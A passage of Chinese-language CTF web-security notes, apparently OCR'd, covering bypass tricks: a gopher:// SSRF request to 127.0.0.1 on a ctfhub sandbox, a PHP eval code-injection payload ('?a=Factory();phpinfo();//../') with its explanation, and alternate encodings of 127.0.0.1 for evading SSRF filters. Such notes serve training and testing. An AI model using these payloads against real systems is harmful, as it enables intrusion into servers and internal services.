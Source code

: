 
```
http://challenge-ac6bda65846a9a3b.sandbox.ctfhub.com:10800/?url=gopher://127.0.0.1:80/_《url编码》 
```

10.  目录拼接绕过

```
<?php
class Factory{
   static private $_obj=null;
   static public function setModel() {
      $_a = self::getA();
      if (file_get_contents(ROOT_PATH.'/model/'.$_a.'Model.class.php'))
          eval('self::$_obj = new '.ucfirst($_a).'Model();');
      return self::$_obj;
   }
   static public function getA(){
      if(isset($_GET['a']) && !empty($_GET['a'])){
         return $_GET['a'];
      }
      return 'login';
   }
} 
```

绕过

```
?a=Factory();phpinfo();//../ 
```

解析：在参数拼接后，得到file_get_contents中的内容为

```
/model/Factory();phpinfo(); 
```

使用 … 绕过文件目录访问
使用 // 进行代码注释，绕过eval中的内容

```
self::$_obj = new Factory();phpinfo(); 
```

11.  IP绕过，一下均等同于`127.0.0.1`

```
127.0.0.1
0.0.0.0
localhost
127.0.1
127.0.0.1

http://0x7F000001
http://2130706433

http://0 
```
